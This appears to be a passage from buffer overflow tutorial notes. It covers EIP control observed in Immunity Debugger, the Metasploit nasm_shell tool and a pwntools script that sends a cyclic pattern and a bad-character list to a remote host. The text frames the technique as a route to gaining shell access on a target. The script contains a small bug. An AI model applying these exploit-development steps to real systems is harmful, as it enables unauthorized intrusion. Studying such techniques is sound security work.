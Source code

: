 Once you execute the script, the program will crash, and the Immunity Debugger will stop because of the access violation. When you examine the debugger’s output, you’ll see that “EBP” will be filled out with all “A”s (41414141) and the “EIP”with all “B”s (42424242).

It means that we can now control the “EIP” part of the memory, and instead of sending a bunch of “A” or “B” characters, we can send a malicious shellcode to infect our target computer and gain shell access.

Example in: https://blog.devgenius.io/buffer-overflow-tutorial-part3-98ab394073e3



## Translate instructions

Nasm_shell is a tool used for testing and experimenting with x86 assembly code. It provides an interactive shell where users can enter assembly instructions and get the corresponding hexadecimal machine code as output. This tool is helpful for learning assembly language, writing shellcode, and understanding the low-level representation of instructions in x86 architecture. It is commonly used by security researchers and exploit developers in the field of cybersecurity for crafting and testing exploits.

Command:

```
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
```



## Bad chars

It is neccessary to check for characters that are not allowed by the APP or executable.

Example script:

```
#!/usr/bin/python3

from pwn import *

context.update(arch='i386', os='linux')

p.remote("IP", "PORT")


badchars=(
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)


p.sendline(cyclic(180) + badchars)

p.interactive()
```